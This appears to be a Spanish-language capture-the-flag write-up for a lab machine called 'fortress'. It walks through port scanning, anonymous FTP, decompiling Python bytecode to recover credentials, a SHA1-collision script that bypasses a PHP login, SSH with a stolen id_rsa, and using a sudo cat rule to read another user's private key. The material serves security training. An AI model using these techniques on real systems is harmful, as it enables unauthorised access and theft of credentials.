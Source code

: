 ### Tags: `ftp` `telnet` `SHA1_collision`

# Escaneo (*22,5581,5752,7331*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <ip> -oN escaneo
```
![image](https://github.com/user-attachments/assets/22e7607e-cb95-468b-a4d8-de6d863b9345)

-  En la descripción del CTF nos dice que agreguemos estos dos dominios al **/etc/hosts** `fortress y temple.fortress`

# FTP (*anonymous*)

Nos conectamos como el user **anonymous** sin proporcionar contraseña y nos traemos el ``.txt`` y un `.file`

```ruby
 ftp 10.10.11.86 -p 5581
```
![image](https://github.com/user-attachments/assets/9db41c68-2eed-4b8e-bb7b-2ab1c7d4e0a9)

Le hacemos un cat al archivo `marked.txt` y dice lo siguiente:

```
If youre reading this, then know you too have been marked by the overlords... Help memkdir /home/veekay/ftp I have been stuck inside this prison for days no light, no escape... Just darkness... Find the backdoor and retrieve the key to the map... Arghhh, theyre coming... HELLLPPPPPmkdir /home/veekay/ftp
```

Vemos una ruta `home/veekay/ftp`, un usuario `veekay`
Y el archivo `.file` es un es un archivo de bytes compilado en Python 2.7

![image](https://github.com/user-attachments/assets/0b4b41a8-189a-49d0-aad2-e26822e44e47)

### Descompilar 

Vamos a descompilar el archivo de esta manera usando `uncompyle2`, este repo lo que hace es descompilar el código de bytes de la versión 2.5, 2.6, 2.7 de Python

```ruby
https://github.com/BlueEffie/uncompyle2.git
cd uncompyle2
sudo python2 setup.py install
cd ..
uncompyle2 .file
```

![image](https://github.com/user-attachments/assets/f8ee0d00-43d5-4e8e-9f6e-899b7e872389)

Creé un pequeño script en Python que me permitiría decodificar las credenciales que espera el servicio. 

```python
from Crypto.Util.number import long_to_bytes 

usern = 232340432076717036154994 
passw = 10555160959732308261529999676324629831532648692669445488 

print(long_to_bytes(usern)) 
print(long_to_bytes(passw))
```

![image](https://github.com/user-attachments/assets/020333d9-94df-4190-90cb-603ade47ab34)

Ahora como vemos llama al puerto 5752 que nos podemos conectar por **telnet** poniendo estas credenciales 

```ruby
 telnet <ip> 5752
```

Observamos como una clave `t3mple_0f_y0ur_51n5`

![image](https://github.com/user-attachments/assets/ab1fe7d9-3197-42e8-a2a7-86d784d4cfdf)

# Port 7331

En la web ponemos `http://fortress:7331/t3mple_0f_y0ur_51n5.php` y en código fuente vemos lo siguiente

![image](https://github.com/user-attachments/assets/19660ad2-3058-4890-bd15-f780b3f345a9)

Probando con mas extensiones, en  `http://fortress:7331/t3mple_0f_y0ur_51n5.html`

![image](https://github.com/user-attachments/assets/0a54cb88-1047-4354-aea0-105015713157)

Y acá la verdad probando cosas no encontré nada y tuve que ver como se hacia y es de esta manera:
Primero tenemos que ir a este [Enlace](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md) y copiarnos este script:

```python
#!/usr/bin/env python
import requests

# this is copy/paste from Hex editor - two different files with the same SHA1 checksum
name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

print '[+] create URL decoded strings to send as GET parameters [name] and [password]...'
name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

print '[+] sending request to http://54.202.82.13/?name=[name]&password=[password]'

u = 'http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(namestr, passwordstr)

resp = requests.get(u, headers={
    'Host': 'fortress'
})

print '[+] read FLAG from response...\n\n'
print resp.content
```

Ahora lo ejecutamos y obtenemos un archivo llamado `m0td_f0r_j4x0n.txt`

![image](https://github.com/user-attachments/assets/570a6019-fda2-4e9d-9628-deca889f5da0)

Encontramos una clave `id_rsa` que puede ser del user `h4rdy`

![image](https://github.com/user-attachments/assets/40c782df-a40a-4bfe-85a8-a2da51f09e57)

## SSH (`h4rdy`)

Lo que tenemos que hacer es iniciar sesión con h4rdy usuario con el siguiente comando:

```ruby
 nano id_rsa
 chmod 600 id_rsa
 ssh -i id_rsa h4rdy@<IP> -t "bash --noprofile"
```

![image](https://github.com/user-attachments/assets/85459f49-11e7-4c27-906f-54081be12ffa)

# Escalada (`j4x0n`)

Poniendo `sudo -l` observamos que podemos ejecutar **/bin/cat** como el usuario *j4x0n*

![image](https://github.com/user-attachments/assets/e7cd23e7-b0af-41d9-a6f2-e96ac06e43d4)
![image](https://github.com/user-attachments/assets/e5c71fac-56a4-4e23-bd86-2a66a65f9882)

Ahora tratamos de obtener su **id_rsa** de esta manera  y tuvimos éxito! ---> `/usr/bin/sudo -u j4x0n /bin/cat /home/j4x0n/.ssh/id_rsa`

![image](https://github.com/user-attachments/assets/3f9f3171-6550-4f44-8057-3bee03f9a9a3)

Nos conectamos de esta manera como el user **j4x0n**

```ruby
 nano j4x0n_rsa
 chmdo 600 j4x0n_rsa
 ssh -i j4x0n_rsa j4x0n@<IP> -t "bash --noprofile" 
```
![image](https://github.com/user-attachments/assets/ca51b137-3f84-43a3-ba53-31b604a7079a)

# Escalada ``ROOT``

En el directorio `/data` , tenemos un archivo `setup.sh` que se utiliza para configurar la máquina cada vez que se enciende.
Puedo encontrar las banderas y la contraseña de root aquí

![image](https://github.com/user-attachments/assets/de2a589c-f439-4424-9b49-6912e9178747)

